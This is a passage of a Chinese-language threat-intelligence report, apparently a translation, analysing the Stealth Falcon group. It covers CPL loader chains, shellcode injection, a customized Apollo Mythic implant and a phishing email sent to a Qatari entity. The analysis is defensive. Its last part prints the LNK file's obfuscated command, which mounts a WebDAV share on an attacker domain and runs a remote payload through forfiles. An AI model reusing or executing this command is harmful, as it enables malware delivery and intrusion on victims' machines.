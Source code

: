   
  
CPL 加载器会启动两条不同的加载链。第一条加载链已由 ESET 彻底 分析 ，并以一个 Shellcode 下载器结束，该下载器旨在从攻击者的 C2 服务器检索 Shellcode。与 ESET 的经历类似，我们未能检索到该 Payload，但可以推测它是该组织使用的已知 Payload 之一，其中一些 Payload 我们稍后会讨论。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAa2Wx3TrjJ2nx2BQwturBf80DJkbxxCzf8nqLux7Z3ufEjZBGvwhqSQ/640?wx_fmt=webp&from=appmsg "")  
  
图 21 – 多阶段加载链提供用于从 C2 服务器检索 Shellcode 的下载器。  
  
第二个类似：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAseFZTEKybAfLH8H9yib3qhcH62kOlicVicAMrkeIttF700X6JaDlF5dkA/640?wx_fmt=webp&from=appmsg "")  
  
图 22 – 在内存中链式加载自定义 Apollo Mythic 代理。  
  
它包括以下几个阶段：  
1. CPL 使用 XOR 解密嵌入的第二阶段（shellcode）。  
  
1. CPL 生成一个处于挂起状态的新进程（我们将其观察 C:\Windows\system32\WWAHost.exe 为主机进程），将解密的 shellcode 注入其中并执行 shellcode。  
  
1. 然后，shellcode 分配并执行一个额外的 DLL，即一个基于 .NET 的加载器。  
  
1. 加载器加载最终的有效载荷，即一个定制的 Apollo 植入物 .NET 可移植可执行文件。  
  
定制的Apollo代理  
  
Apollo 是一个基于 Mythic 框架的 Windows 代理，使用 C# 编写。Stealth Falcon 使用的植入程序通过 ConfuserEx 进行了混淆，使用了控制流和字符串混淆技术。虽然 Mythic 支持多种命令，但威胁行为者只使用了其中很小一部分，并且还使用了一些额外的命令对代理进行了自定义。  
  
从所有受支持的命令的概述中可以清楚地看出，该列表与 C++ 植入物的列表非常相似：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAVamQPiabQGia3oEPovMFZb0yibkVvBGYkNckCZe6ASwhibnImLqCjlLMYQ/640?wx_fmt=png&from=appmsg "")  
  
定制版 Apollo 和 Horus Agent 在 C2 功能方面的区别相当有限：  
- Horus 变体包括 upload Mythic 内置的命令，而 Apollo 植入物则缺乏该命令。  
  
- Horus 变体将 2 个自定义命令合并为一个， shinjectchuncked 并 shinjectstealth 使用“隐身模式”作为参数。  
  
通过这个简短的比较，我们相信 Horus 是威胁组织定制的 Apollo 植入物的更高级版本，用 C++ 重写、改进和重构。  
  
与 Horus 版本类似，Apollo 版本引入了广泛的受害者指纹识别功能，同时限制了支持的命令数量。这使得威胁行为者能够专注于隐秘地识别受感染的机器并进行下一阶段的有效载荷投递，同时使植入体的大小显著小于完整代理（仅 120KB）。  
  
更多 LOLBins 和 WebDAV  
  
这封电子邮件于 2023 年 10 月发送给卡塔尔一家知名实体：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAsB2Jq0hBo4rykWWdVxXBtibgYvXFZyoAbzt5VeMHpoibyicbBtAmr54YA/640?wx_fmt=webp&from=appmsg "")  
  
图 23 – 发送给其中一名受害者的网络钓鱼电子邮件。  
  
该电子邮件包含一个附加的 ZIP 文件 Supplier prequalification application form.zip ，该文件又包含一个 LNK 文件 Supplier.lnk。LNK 文件在执行时会运行以下命令：  
  

```
&#34;C:\Windows\system32\cmd.exe&#34; ) ( ) ) ( ) ( ) ( ) cmd /c DeviceCredentialDep^loyment & cmd /V:ON /C &#34;set EDITOR=chttpim& pushd \\mystartupblog.com@ssl@443\eQwcvcZIy&start /B https://mystartupblog.com/ePkNWY/deUsplnb.pdf&timeout8&@for^files /p c:\windows /m notepad.exe /c \\mystartupblog.com@ssl@443\eQwcvcZIy\Supplier0.8bps&popd&#34;
```
